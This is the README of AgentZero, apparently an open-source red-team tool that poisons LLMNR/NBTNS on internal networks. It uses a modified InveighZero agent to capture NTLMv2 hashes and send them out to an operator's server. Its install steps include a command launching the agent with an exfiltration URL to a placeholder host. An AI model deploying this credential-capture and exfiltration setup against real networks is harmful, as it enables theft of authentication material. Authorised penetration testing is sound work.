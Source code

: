 # AgentZero
A client-server tool for remote LLMNR/NBTNS poisoning by Matt Kiely (HuskyHacks) and Aaron Hobdy.

## WARNING
This tool does not yet provide any encryption of data on the wire. **Do not use this to transmit captured authentication material outside of a private, internal network.** The dev team is not liable if you use this in a production environment and leak plain text authentication data out to the Internet.

This tool is also not currently built with security best practices in mind. There is no authentication mechanism for the main web server yet. Keep this in mind before hosting this tool on your network. **Never host this on an internet facing server.**

### Description
Inveigh is the work of Kevin Robertson and is one of the best tools available for poisoning LLMNR/NBTNS in a target network. Traditionally, tools like Responder.py have been used to respond to LLMNR/NBTNS and force the client to attempt an authentication to the responder server, which allows an attacker to capture the NTLMv2 hash of the client. However, this method has one big shortfall: the attacker must be present on the network where Responder is running, which is not always feasible. Inveigh and InveighZero have the interesting capability of being able to be run via PowerShell or as a reflective .NET assembly, respectively. This allows an operator to gain a foothold with a C2 agent, load Inveigh into their C2 agent's session, and use it to respond to LLMNR on the target network.

Recently, we found that we were running Inveigh as a .NET assembly through a C2 agent in order to recover NTLMv2 hashes remotely. This works great on platforms like Covenant and Cobalt Strike! Running Inveigh through a C2 agent means that an operator does not have to be present on the subnet where they want to recover NTLMv2 hashes. We wanted to make this process into a stand-alone client/server tool and hopefully define it as its own method of extracting authentication information. Thus, **AgentZero** was born.

**AgentZero** uses a modified version of the InveighZero source code to create an agent binary that can exfiltrate capture authentication messages from an internal network out to an operator-controlled server. This allows for remote LLMNR poisoning that can recover cryptographic authentication messages.  

### Quick Install Guide
Note: The process for setting up the client/server architecture for this tool is still in its early stages. Right now, the InveighZero agent must be compiled manually.

1. `sudo git clone https://github.com/HuskyHacks/AgentZero.git`
2. `cd AgentZero`
3. `sudo docker-compose up --build`
4. Compile the InveighZero-master binary that is packeged in the code.
5. Drop this binary to disk or run as an assembly with the `-EXFILURL` argument: `InveighZero.exe -EXFILRUL http://[ip]:1776/listener`
6. Wait for (or force) an LLMNR/NBTNS event
7. Captured hashes are stored in the dockerized DB.

### Roadmap
v.01
- [x] Python socket server that accepts input and writes to log file
- [x] InveighZero exe that sends captured NTLMv2 hash to server
- [x] Flask App
- [x] Stores in database

v.02
- [ ] Encoding/encrypting for exfil
  - [x] Base64 encoding
  - [ ] Asymmetrical Key exchange at compilation/agent check in
- [ ] Simple front-end login, set password on server at docker build
- [ ] Dynamically compile InveighZero with IP address and port
  - [x] Compilation function
  - [ ] Controlled from UI

future state
- [ ] Cool art for github page
- [ ] Multi-threaded, multi-agent handling
- [ ] Front end web client for multi-agent config/administration
- [ ] Dynamic generation for listener URL
- [ ] "Dashboard" for default view with DAG representation of agents 

## Acknowledgements
The dev team would like to thank Kevin Robertson for making an incredible program! Thanks also goes out to the devs of Covenant, Cobalt Strike, Empire, and all other C2s that we love.
